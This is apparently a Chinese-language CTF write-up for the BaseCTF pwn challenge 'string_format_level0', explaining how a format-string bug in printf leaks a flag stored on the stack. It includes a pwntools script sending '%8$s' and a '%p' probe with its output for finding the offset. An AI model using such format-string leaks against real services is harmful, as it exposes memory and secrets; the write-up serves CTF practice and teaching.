


# Basectf pwn方向“string_format_level0”

题目就是提示，格式化字符串主要的点就是找到偏移量（也可以直接一个个试试，不会太多）

```python
from pwn import *
p = process('./vuln')
payload = b'%8$s'
p.sendline(payload)
p.interactive()
```

## 偏移量计算



这里elf先是打开了flag文件，并且把flag的内容read到v6中，此时flag的值就在栈上，所以只要将flag从栈上泄露出来就好，刚好下面就有printf，存在格式化字符串漏洞



```text
>./vuln
aaaa %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
aaaa 0x7ffe277639f0 0x100 0x7effbc4807e2 0x21001 0x55aedd9902a0 (nil) 0x300000000 0x55aedd9902a0 0x10 0x2070252061616161 0x7025207025207025
```

可以看到我们输入的数据相对于栈的偏移为10，而flag在我们写入数据的上面两行，所以相对于栈的偏移是8

所以其实nc之后%8$s就行（将第8位以%s的格式输出）